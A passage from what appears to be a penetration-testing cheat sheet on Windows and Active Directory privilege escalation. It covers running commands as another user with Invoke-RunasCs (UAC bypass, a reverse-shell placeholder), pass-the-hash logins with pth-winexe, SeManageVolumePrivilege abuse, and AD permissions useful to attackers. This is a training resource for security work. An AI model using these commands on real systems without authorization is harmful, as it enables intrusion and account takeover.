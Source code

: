 ```bash
.\PsLoggedOn.exe \\file04
```

#### InvokeRunasCs.ps1

If you have credentials for another user on a system, but cannot seem to login as them through any of the traditional methods, use the:

```bash
. .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 "cmd /c c:\windows\tasks\svc_mssql.exe" --bypass-uac
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "<reverse shell code>"
```

and execute a reverse shell to get onto the system as them.

#### winexe & pth-winexe

If runas doesn't seem to be working, this is an alternative.

```bash
winexe -U jenkins/administrator //$ip cmd.exe
pth-winexe -U jenkins/administrator //$ip cmd.exe
# pth-wmic & pth-wmis
```

#### Look out for SeManageVolumePrivilege

If you have the SeManageVolumePrivilege, then you may be able to abuse it to get root. Don't forget that you have ONE shot, so don't mess it up.

There are some great examples in Offsec's Access PG Practice write-ups and "https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9--------------------------------". 

#### Additional Directory Information

Simple way to get more information about files in directory, such as who owns them:

```bash
dir /a /o /q
```

#### Interesting Object Permissions

AD includes a wealth of permission types that can be used to configure an ACE. However, from an attacker's standpoint, we are mainly interested in a few key permission types. Here's a list of the most interesting ones along with a description of the permissions they provide:

	GenericAll: Full permissions on object
	GenericWrite: Edit certain attributes on the object
	WriteOwner: Change ownership of the object
	WriteDACL: Edit ACE's applied to object
	AllExtendedRights: Change password, reset password, etc.
	ForceChangePassword: Password change for object
	Self (Self-Membership): Add ourselves to for example a group
